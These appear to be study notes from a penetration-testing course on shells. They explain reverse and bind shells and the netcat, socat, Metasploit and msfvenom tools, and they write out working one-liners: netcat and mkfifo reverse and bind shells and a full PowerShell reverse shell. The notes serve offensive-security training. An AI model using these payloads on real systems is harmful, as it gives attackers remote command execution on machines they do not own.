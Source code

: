A shell is software that allows a user to interact with an OS. It can be a graphical interface, but it is usually a command-line interface, and this will depend on the operating system running on the target system.  
In cyber security, it commonly refers to a specific shell session an attacker uses when accessing a compromised system, allowing them to run commands and execute software. This will allow attackers to execute several activities, some of which are described below.

- **Remote System Control**: allows the attacker to execute commands or software remotely in the target system.
- **Privilege Escalation**
- **Data Exfiltration**
- **Persistence and Maintenance Access**
- **Post-Exploitation Activities**
- **Access Other Systems on the Network** This is also known as pivoting.
There are a variety of tools that we will be using to receive reverse shells and to send bind shells. In general terms, we need malicious shell code, as well as a way of interfacing with the resulting shell. We will discuss each of these briefly below:
### Netcat
Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques that we will be covering in an upcoming task.
### Socat
Socat is like netcat on steroids. It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.
### Metasploit -- multi/handler
The `exploit/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a _meterpreter_ shell, and is the easiest way to handle _staged_ payloads
### Msfvenom
Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Whilst msfvenom can generate payloads other than reverse and bind shells, these are what we will be focusing on in this room.

### Other useful links
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[SecLists](https://github.com/danielmiessler/SecLists)

## Types of Shells
### Reverse Shell
Are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools to set up a listener which is used to receive the connection. Reverse shells are a good way to bypass firewall rules, but the drawback is that, you need to configure your network to receive a shell across the internet.
On the attacking machine: `sudo nc -lvnp 443`
On the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`
### Bind Shell
Are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.
On the target: `nc -lvnp <port> -e "cmd.exe"`
On the attacking machine: `nc MACHINE_IP <port>`

### Interactive vs Non-Interactive
#### Interactive
These allow you to interact with programs after executing them. For example, the SSH login prompt.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`stty raw -echo;fg`
### Non-Interactive
In a non=interactive shell you are limited to using programs which do not require  user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive.

# Shell Payloads
`netcat-traditional` there is no `-e` option which allows you to execute a process on connection.
On linux we can use this code to create a listener for a bind shell:
`mkfifo /tmp/f; nc -lnvp <PORT> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f`

The command first creates a _[named pipe](https://www.linuxjournal.com/article/2156)_ at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat connects the input of the listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr ouput steam into stdout, and sending stout itself into the input of the named pipe, thus completing the circle.

A very similar command can be used to send a netcat reverse shell:
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

